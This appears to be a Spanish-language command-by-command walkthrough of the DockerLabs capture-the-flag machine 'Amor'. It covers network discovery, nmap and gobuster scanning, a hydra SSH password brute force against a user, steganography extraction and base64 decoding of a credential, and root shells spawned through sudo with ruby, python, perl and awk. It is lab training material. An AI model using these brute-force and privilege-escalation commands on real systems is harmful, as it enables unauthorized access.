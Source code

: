 # Desglose Detallado de Comandos - Reto DockerLabs: "Amor"

## 1. `scp -r amor kali@192.168.1.12:/home/kali/Documents/`

**Función:** Copia recursivamente (carpeta completa) desde máquina local a máquina remota usando SSH.

- `-r`: Recursivo (para directorios).
- `amor`: Carpeta origen.
- `kali@192.168.1.12`: Usuario y dirección IP del host remoto.
- `:/home/kali/Documents/`: Ruta destino en la máquina remota.

**Variantes útiles:**
- `scp archivo.txt usuario@IP:/ruta/`: Copiar solo un archivo.
- `scp -P 2222 archivo usuario@IP:/ruta/`: Usar un puerto SSH específico.
- `scp usuario@IP:/remoto.txt ./local/`: Descargar desde host remoto.

---

## 2. `sudo apt install docker.io`

**Función:** Instala Docker desde los repositorios oficiales en sistemas Debian/Ubuntu.

- `sudo`: Eleva permisos para instalar software.
- `apt install`: Instala paquetes.
- `docker.io`: Nombre del paquete de Docker.

**Variantes útiles:**
- `sudo apt update && sudo apt install docker.io`: Actualiza e instala.
- `sudo snap install docker`: Alternativa con Snap.
- `sudo apt install docker-ce`: Instalación desde Docker CE (requiere repositorio externo).

---

## 3. `ip add`

**Función:** Muestra todas las interfaces de red y sus direcciones IP.

**Variantes útiles:**
- `ip a`: Versión corta equivalente.
- `ip addr show docker0`: Mostrar solo interfaz Docker.
- `ip route`: Ver rutas de red activas.

---

## 4. `sudo netdiscover -i docker0 -r 172.17.0.0/24`

**Función:** Escanea la red en el rango 172.17.0.0/24 por ARP para descubrir dispositivos activos.

- `-i docker0`: Interfaz a usar (red interna de Docker).
- `-r`: Define el rango IP.

**Variantes útiles:**
- `sudo netdiscover -i eth0`: Escaneo en red física.
- `netdiscover -P`: Modo pasivo.
- `netdiscover -s`: Escaneo rápido.

---

## 5. `sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2`

**Función:** Escaneo agresivo de puertos y servicios en el host Docker.

- `--min-rate 5000`: Velocidad mínima del escaneo (rápido).
- `-p-`: Escanea todos los 65535 puertos.
- `-sS`: Escaneo TCP SYN (stealth).
- `-sV`: Detecta versión del servicio.

**Variantes útiles:**
- `-T4`: Ajuste de velocidad/agresividad.
- `-A`: Escaneo completo (SO, scripts, traceroute).
- `-Pn`: Desactiva detección de host.

---

## 6. `gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

**Función:** Fuerza bruta de directorios web.

- `dir`: Modo de búsqueda de directorios.
- `-u`: URL del objetivo.
- `-w`: Diccionario de palabras.

**Variantes útiles:**
- `-x .php,.txt`: Fuerza extensiones.
- `-t 50`: Número de hilos.
- `-o resultado.txt`: Guarda resultados.

---

## 7. `hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10`

**Función:** Ataque de fuerza bruta por diccionario sobre servicio SSH.

- `-l carlota`: Usuario objetivo.
- `-P rockyou.txt`: Diccionario de contraseñas.
- `ssh://172.17.0.2`: Objetivo SSH.
- `-t 10`: 10 hilos en paralelo.

**Variantes útiles:**
- `-L usuarios.txt`: Lista de usuarios.
- `-f`: Finaliza al encontrar contraseña válida.
- `-vV`: Verbose detallado.

---

## 8. `ssh carlota@172.17.0.2`

**Función:** Conecta vía SSH con el usuario `carlota`.

**Variantes útiles:**
- `ssh -p 2222 user@IP`: Conectar a otro puerto.
- `ssh -i clave.pem user@IP`: Autenticación con clave privada.
- `ssh -v`: Modo verbose.

---

## 9. `scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor`

**Función:** Descarga la imagen del host remoto a Kali.

**Misma lógica que `scp` explicado antes.**

---

## 10. `file imagen.jpg`

**Función:** Identifica el tipo de archivo mediante cabecera binaria.

**Variantes útiles:**
- `file *`: Analiza múltiples archivos.
- `file -i imagen.jpg`: Devuelve tipo MIME.

---

## 11. `steghide --extract -sf imagen.jpg`

**Función:** Extrae datos ocultos en un archivo con esteganografía.

- `--extract`: Extraer contenido.
- `-sf imagen.jpg`: Especifica archivo fuente.

**Variantes útiles:**
- `steghide info imagen.jpg`: Información del contenedor.
- `steghide embed -cf imagen.jpg -ef secreto.txt`: Insertar datos.

---

## 12. `echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo`

**Función:** Decodifica una cadena base64.

- `echo`: Imprime la cadena.
- `| base64 -d`: Decodifica base64.
- `; echo`: Asegura salto de línea al final.

**Variantes útiles:**
- `base64 archivo.txt`: Codifica archivo.
- `base64 -d archivo.b64`: Decodifica archivo.

---

## 13. `su oscar`

**Función:** Intenta cambiar de usuario al usuario `oscar`.

**Variantes útiles:**
- `su - oscar`: También carga variables de entorno.
- `whoami`: Confirmar cambio.

---

## 14. `sudo /usr/bin/ruby -e 'exec "/bin/bash"'`

**Función:** Escalada de privilegios mediante ejecución de shell desde Ruby.

- `sudo`: Ejecutar como root.
- `/usr/bin/ruby`: Intérprete de Ruby.
- `-e 'exec "/bin/bash"'`: Ejecuta bash como root.

**Variantes útiles:**
- `sudo python -c 'import os; os.system("/bin/bash")'`
- `sudo perl -e 'exec "/bin/sh";'`
- `sudo awk 'BEGIN {system("/bin/bash")}'`

---

## 15. `whoami`

**Función:** Muestra el usuario actual del sistema (útil para confirmar escalada de privilegios).

---

